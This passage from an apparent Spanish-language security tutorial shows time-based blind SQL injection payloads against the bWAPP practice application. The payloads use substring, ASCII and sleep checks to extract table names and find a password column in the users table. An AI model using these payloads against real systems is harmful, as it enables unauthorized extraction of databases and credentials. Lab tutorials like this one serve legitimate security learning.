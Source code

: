 ```sql
' or 1=1 AND substring((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_type='base table' AND table_schema='bWAPP' LIMIT 1,1),3,1) = 'r' AND sleep(5)-- -
```

```sql
' or 1=1 AND substring((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_type='base table' AND table_schema='bWAPP' LIMIT 1,1),4,1) = 'o' AND sleep(5)-- -
```

```sql
' or 1=1 AND substring((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_type='base table' AND table_schema='bWAPP' LIMIT 1,1),5,1) = 'e' AND sleep(5)-- -
```

```sql
' or 1=1 AND substring((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_type='base table' AND table_schema='bWAPP' LIMIT 1,1),6,1) = 's' AND sleep(5)-- -
```

#### Opción ocupando ASCII

```sql
' or 1=1 AND ASCII(substring((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_type='base table' AND table_schema='bWAPP' LIMIT 1,1),1,1)) = 104 AND sleep(5)-- -
```

Una vez encontramos una tabla sensible en la cual centrarnos, podemos buscar sus columnas de la siguiente forma (en este caso la columna encontrada es ```password```):

```sql
' or 1=1 AND substring((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' LIMIT 2,1),1,1) = 'p' AND sleep(5)-- -
```

[![sqlinjectblindsleep16](/images/sqlinjectblindsleep16.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/sqlinjectblindsleep16.png)
